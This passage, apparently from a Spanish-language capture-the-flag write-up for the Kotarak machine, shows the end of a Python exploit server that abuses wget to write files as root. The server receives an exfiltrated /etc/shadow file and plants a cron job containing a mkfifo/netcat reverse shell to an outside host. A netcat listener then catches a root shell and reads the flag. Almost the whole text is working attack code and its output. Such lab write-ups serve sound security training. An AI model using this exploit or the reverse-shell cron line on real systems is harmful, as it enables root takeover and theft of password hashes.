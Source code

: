 ```null
	 print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.0.3.1'
FTP_PORT = 21

ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.4 443 >/tmp/f \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```

Ejecuto y gano acceso al sistema

```null
atanas@kotarak-dmz:/tmp/ftptest$ authbind python exploit.py
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.55] 45180
sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
950d1425795dfd38272c93ccbb63ae2c
```